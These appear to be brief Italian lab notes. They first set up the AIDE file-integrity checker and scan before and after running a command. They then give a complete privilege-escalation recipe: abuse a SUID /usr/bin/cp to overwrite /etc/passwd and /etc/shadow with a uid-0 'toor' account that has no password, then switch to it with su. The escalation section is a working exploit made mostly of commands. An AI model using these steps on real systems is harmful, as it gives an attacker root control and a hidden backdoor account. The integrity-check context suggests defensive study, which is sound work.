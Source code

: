 1) inizializzare aide: aideinit

2) copiare il database: sudo mv /var/lib/aide/aide.db.new /var/lib/aide/aide.db

3) eseguire una scansione prima di lanciare il comando: sudo aide --config=/etc/aide/aide.conf --check

4) esegui il comando

5) eseguire di nuovo scansione sudo aide --config=/etc/aide/aide.conf --check

PRIVILEGE ESCALATION CON /USR/BIN/CP:
Per ottenere privilegi usando /usr/bin/cp, se ha il bit SUID settato, copiare /etc/passwd e shadow nella home usando cat /etc/passwd > file, poi aggiungici le righe sotto
passwd: toor:x:0:0:root:/root:/bin/bash
shadow: toor::19418:0:99999:7:::

poi esegui
/usr/bin/cp /home/kali/passwd /etc/passwd
/usr/bin/cp /home/kali/shadow /etc/shadow


per diventare toor: su toor 